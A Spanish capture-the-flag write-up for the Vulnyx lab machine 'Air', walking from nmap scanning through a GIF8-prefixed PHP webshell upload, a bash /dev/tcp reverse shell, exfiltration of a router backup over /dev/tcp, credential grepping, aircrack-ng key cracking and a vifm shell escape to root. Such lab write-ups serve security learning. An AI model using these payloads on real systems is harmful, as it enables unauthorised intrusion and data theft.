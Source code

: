 ```yaml
---
title: Vulnyx - Air
author: estx
date: 2024-05-04 12:10:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'File Upload', 'Information Leakage', 'Aircrack']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Air/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **File Upload, Information Leakage, Aircrack**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.72	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.72 -oG ports

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80,8080 -sCV 192.168.100.72 -oN versions

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:95:f2:88:f3:0f:ca:38:ec:da:3c:c0:cd:19:20:41 (ECDSA)
|_  256 53:21:e1:34:a6:f0:70:2b:87:e7:cf:3d:6b:85:9d:64 (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Did not follow redirect to http://air.nyx:8080/
|_http-open-proxy: Proxy might be redirecting requests
```

* Vemos el dominio `air.nyx` el cual añadimos el `/etc/hosts`

```bash
❯ cat /etc/hosts

...
192.168.100.72	air.nyx
```

c. Al visitar el sitio web del puerto **8080**, tenemos un apartado para subir archivos. Si intentamos subir algunos archivos veremos el mensaje 'The file is not a valid image.', pero, si cambios los 'magic numbers' de un archivo **.php** por `GIF8` nos dejará subir una webshell

```php
GIF8

<?php system($_GET['cmd']); ?>
```

![Shell](/assets/images/Vulnyx/Easy/Air/01-shell.png)

d. Hacemos fuzzing para identificar el directorio en el que se suben los archivos

```bash
❯ dirsearch -u 'http://air.nyx:8080/'

<SNIP>
[17:24:03] 403 -  555B  - /uploads/
```

* Ahora podemos ejecutar comandos en la máquina víctima

```bash
❯ curl -s -X GET "http://air.nyx:8080/uploads/shell.php?cmd=whoami"
GIF8

www-data
```

e. Nos entablamos una reverse shell

```bash
❯ curl -s -X GET "http://air.nyx:8080/uploads/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.100.55/4444%200>%261'"
------------------------------------------------------------------------------------
❯ nc -lvnp 4444
www-data@air:~/air/uploads$
```

### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@air:~/air/uploads$ script /dev/null -c bash
www-data@air:~/air/uploads$ ^Z
[1]  + 15681 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 15681 continued  nc -lvnp 4444
                                     reset xterm

www-data@air:~/air/uploads$ export TERM=xterm-256color
www-data@air:~/air/uploads$ source /etc/skel/.bashrc
```

* Listamos los permisos a nivel de sudoers de este usuario

```bash
www-data@air:~/tmp$ sudo -l

User www-data may run the following commands on air:
    (sam) NOPASSWD: /opt/air-repeater
```

* Al ejecutar este binario debemos obtener una contraseña, pero no la tenemos, por lo que buscamos archivos que puedan tener esta contraseña

2. Encontramos el archivo `backup-OpenWrt.tar.gz`

```bash
www-data@air:~/html/files/key/2023_router_backup$ ls
backup-OpenWrt.tar.gz
```

* Transferimos el este archivo a nuestra máquina

```bash
# Máquina Atacante
❯ nc -lvnp 4445 > backup-OpenWrt.tar.gz

# Máquina Air
www-data@air:~/html/files/key/2023_router_backup$ cat < backup-OpenWrt.tar.gz > /dev/tcp/[IP Máquina Atacante]/4445
```

* Descomprimimos el archivos y filtramos por palabras clave

```bash
❯ 7z x backup-OpenWrt.tar.gz
❯ tar -xf backup-OpenWrt.tar
❯ grep -E "key|pass" -r ./
./etc/opkg/keys/2f8b0b98e08306bf:untrusted comment: Public usign key for 21.02 release builds
./etc/profile:export HOME=$(grep -e "^${USER:-root}:" /etc/passwd | cut -d ":" -f 6)
./etc/profile:There is no root password defined on this device!
./etc/profile:Use the "passwd" command to set up a new password
./etc/config/wireless:  option key '42NsWajkZGlz'
./etc/config/luci-opkg: option passwd   "/etc/passwd"
./etc/config/uhttpd:    option key '/etc/uhttpd.key'
./etc/config/uhttpd:    option key_type 'ec'
./etc/config/rpcd:      option password '$p$root'
./etc/config/luci:      option passwd '/etc/passwd'
```

* Encontramos una posible contraseña `42NsWajkZGlz`

3. La usamos en el binario anterior y nos convertirmos en el usuario **sam**

```bash
www-data@air:~/html/files/key/2023_router_backup$ sudo -u sam /opt/air-repeater 
Enter the password: 42NsWajkZGlz
Correct password!
```

* Encontramos el archivo `Air-Master.zip`, lo transferimos a nuestra máquina

```bash
sam@air:/var/backups$ ls -al
-rw-------  1 xiao xiao    492 Nov  8 20:33 Air-Master.zip
```

* Al descomprimirlo solo hay un archivo `Air-Master-01.ivs`

> Los archivo **`.ivs`** contienen vectores de inicialización que son útiles para la generación de los datos cifrados en la red. Estos archivos pueden ser abiertos con `aircrack-ng`
{: .prompt-info }


```bash
aircrack-ng Air-Master-01.ivs -w /usr/share/wordlists/rockyou.txt

                          Aircrack-ng 1.7 

[00:00:01] <SNIP>/10303727 keys tested (6170.16 k/s) 

Time left: 27 minutes, 49 seconds                          0.03%

                    KEY FOUND! [ <SNIP> ]
```

4. Revisamos los permisos a nivel de sudoers de este usuario

```bash
sam@air:/var/backups$ sudo -l
Matching Defaults entries for sam on air:
User sam may run the following commands on air:
    (xiao) NOPASSWD: /usr/bin/vifm
sam@air:/var/backups$ sudo -u xiao /usr/bin/vifm
```

* Se abrirá un editor de texto, escribimos `!/bin/bash` y realizamos un **user pivoting** a `xiao`

5. Por último, la contraseña crackeada con **aircrack-ng**, nos servirá para acceder como root

```bash
xiao@air:~$ su root
Password: 
root@air:/home/xiao # 
```